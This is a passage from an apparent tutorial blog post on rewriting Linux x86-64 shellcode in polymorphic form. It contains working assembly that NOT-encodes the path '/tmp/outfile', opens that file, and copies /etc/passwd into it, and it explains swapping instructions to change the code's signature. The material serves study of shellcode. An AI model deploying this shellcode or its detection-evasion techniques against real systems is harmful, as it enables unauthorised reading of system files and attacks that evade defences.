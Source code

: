     ; clear RAX
    xor eax, eax

    ; push the string "/tmp/outfile" to the stack
    push DWORD 0x656c6966
    mov rcx, 0x8b8a90d08f928bd0
    not rcx
    push rcx

    ; clear RSI
    push rax
    pop rsi
    
    ; set RAX to 2 (syscall open)
    add al, 2

    ; 1st argument of open: pointer to the file
    ; to open (/tmp/outfile)
    mov rdi, rsp
    
    ; 2nd argument of open: flags to use when
    ; opening the file
    ; in this case: O_RDWR|O_CREAT|0x24
    push 0x66
    pop si

    ; invoke syscall open
    syscall</code></pre><figcaption>Creating a new temporary file</figcaption></figure><h3 id="writing-to-file">Writing to file</h3><p>The last routing writes the contents of <code>/etc/passwd</code> to the file <code>/tmp/outfile</code>.</p><p>Compared to the original shellcode, I didn't use a single <code>MOV</code> instruction, preferring instead the instructions <code>XCHG</code>, <code>PUSH</code>, and <code>POP</code>.</p><p>To place the value 1 into the register <code>RAX</code>, rather than using <code>MOV</code> I chose <code>INC</code>.</p><figure class="kg-card kg-code-card"><pre><code class="language-nasm">WriteTempFile:

    ; 1st argument of syscall write: file
    ; descriptor of the file in which to write
    xchg rdi, rax

    ; set RAX to 1 (syscall write)
    xor eax, eax
    inc eax

    ; 2nd argument of write: pointer to the
    ; buffer containing the bytes to write
    push r8
    pop rsi

    ; 3rd argument of write: number of bytes
    ; to write
    push rbx
    pop rdx

    ; invoke syscall write
    syscall
</code></pre><figcaption>Copying <code>/etc/passwd</code> to the temporary file</figcaption></figure><p>In the end, the polymorphic shellcode occupies 111 bytes, which is 7 bytes less than the original shellcode.</p><p>If you don't care about the clear-text strings, then you can <em>clearly<strong> </strong></em>shrink the size even more.</p>